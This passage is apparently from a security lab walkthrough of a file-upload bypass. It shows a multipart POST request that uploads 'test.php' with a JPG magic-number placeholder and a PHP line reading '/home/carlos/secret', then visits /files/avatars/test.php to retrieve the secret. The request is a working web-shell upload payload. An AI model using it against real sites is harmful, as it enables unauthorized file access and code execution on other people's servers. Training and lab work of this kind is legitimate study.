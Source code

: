 So we can change everything to update a PHP file like this:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /my-account/avatar HTTP/2
...
-----------------------------223006367629168816071656253944
Content-Disposition: form-data; name="avatar"; filename="test.php"
Content-Type: text/php

<--JPG MAGIC NUMBER-->

<?php echo file_get_contents('/home/carlos/secret'); ?>

-----------------------------223006367629168816071656253944
...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/4c988d4c593165389a590a416225fc3a.png)

And then access /files/avatars/test.php to read the content of the file:

![img](media/91790157828e585033f0707b14a29174.png)
